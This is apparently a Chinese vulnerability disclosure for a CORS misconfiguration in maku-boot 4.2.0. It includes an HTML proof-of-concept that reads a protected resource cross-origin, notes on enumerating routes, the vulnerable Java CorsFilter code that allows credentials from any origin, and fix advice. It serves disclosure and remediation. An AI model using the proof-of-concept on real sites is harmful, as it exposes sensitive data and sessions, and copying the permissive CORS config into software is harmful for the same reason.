



# maku-boot 4.2.0 CORS 

## 漏洞

```
https://gitee.com/makunet/maku-boot
```

maku-boot 4.2.0版本存在CORS漏洞，攻击者能够通过表单发送请求直接访问到敏感资源，造成敏感资源泄露。有可能还会造成会话劫持。

首先抓取登录包，重放，修改Origin为123.com



可以基本判断存在CORS，测试一下，写一个html

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>GET Request</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
        }
        .response {
            margin-top: 20px;
            padding: 10px;
            border: 1px solid #ccc;
            background-color: #f9f9f9;
            white-space: pre-wrap;
        }
    </style>
</head>
<body>
    <h1>GET Request</h1>
    <button id="getRequestButton">Send GET Request</button>
    <div id="response" class="response"></div>

    <script>
        document.getElementById('getRequestButton').addEventListener('click', function() {
            const xhr = new XMLHttpRequest();
            const url = 'http://127.0.0.1:3000/src/api/auth.ts';

            xhr.open('GET', url, true);

            // 设置必要的请求头
            xhr.setRequestHeader('Accept', 'application/json, text/plain, */*');
            xhr.setRequestHeader('Accept-Language', 'zh-CN');

            xhr.onreadystatechange = function () {
                if (xhr.readyState === 4) {
                    const responseDiv = document.getElementById('response');
                    if (xhr.status === 200) {
                        responseDiv.innerText = `Response: \n${xhr.responseText}`;
                    } else {
                        responseDiv.innerText = `Error: ${xhr.status} ${xhr.statusText}`;
                    }
                }
            };

            xhr.send();
        });
    </script>
</body>
</html>
```

发送请求



前端配置信息配置信息  `/vite.config.ts`



由于本项目是前后端分离项目，危险性降低，但是可以在白盒情况下通过代码直接搜索全部路由，黑盒disearch搜集一级路由，获取全部前端源码。可以获取到后端的端口及接口，尝试直接对后端进行访问。

## 修复建议

对net.maku.framework.common.config.CorsConfig#corsFilter中

```java
        final UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        final CorsConfiguration corsConfiguration = new CorsConfiguration();
        corsConfiguration.setAllowCredentials(true);
        corsConfiguration.addAllowedHeader("*");
        corsConfiguration.addAllowedOriginPattern("*");
        corsConfiguration.addAllowedMethod("*");
        source.registerCorsConfiguration("/**", corsConfiguration);
        return new CorsFilter(source);
```

这段代码做出修改，限制跨域请求允许的方法，限制浏览器缓存期限，定义源的白名单，避免将`Access-Control-Allow-Credentials`标头设置为`true` 替换值